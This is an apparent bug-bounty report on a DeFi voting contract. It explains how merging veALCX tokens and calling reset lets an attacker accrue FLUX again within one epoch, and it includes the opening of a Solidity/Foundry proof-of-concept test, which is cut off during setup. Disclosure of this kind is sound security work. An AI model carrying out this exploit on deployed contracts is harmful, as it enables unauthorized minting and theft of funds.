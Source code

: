 it doesn't require the merged "to" token to be not voted .. only the first token 

the attacker now could merge ID1 & ID2  to  ID3 

and use the reset function with the new total balance .. 
and accrue flux even if the same IDs tokens balance accrued flux previously in the same epoch!




## Impact Details

the suitable in-scope impact is **Unauthorized minting of NFTs**
because this will enable an attacker to gain infinitive FLUX by repeating this tricky scenario  

        
## Proof of concept
``` 

/*
       █▀█  ▀▄▀  █▀▄▀█ █ █▄░█ ▄▀█ ▀█▀ █▀█ 
       █▄█  █░█  █░▀░█ █ █░▀█ █▀█ ░█░ █▄█ 
*/


// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import "forge-std/console.sol";
import "./BaseTest.sol";


contract MyTest is BaseTest { 


address public user = address(2);
uint256 internal constant ONE_WEEK = 1 weeks;
uint256 internal constant THREE_WEEKS = 3 weeks;
uint256 internal constant FIVE_WEEKS = 5 weeks;
uint256 internal constant MANYWEEKS = 52 weeks;

uint256 maxDuration = ((block.timestamp + MAXTIME) / ONE_WEEK) * ONE_WEEK;

 function setUp() public { 

      setupContracts(block.timestamp);

    }


  function _lockVeALCX(uint256 amount) internal returns (uint256) {

        deal(address(bpt), address(this), amount);
        IERC20(bpt).approve(address(veALCX), amount);
        return veALCX.createLock(amount, MAXTIME, false);

    } 

   function _setupgauge() internal {
        
        address alUsdGaugeAddress = voter.gauges(alUsdPoolAddress);

        address bribe1 = voter.bribes(alUsdGaugeAddress);


        vm.prank(voter.admin());
```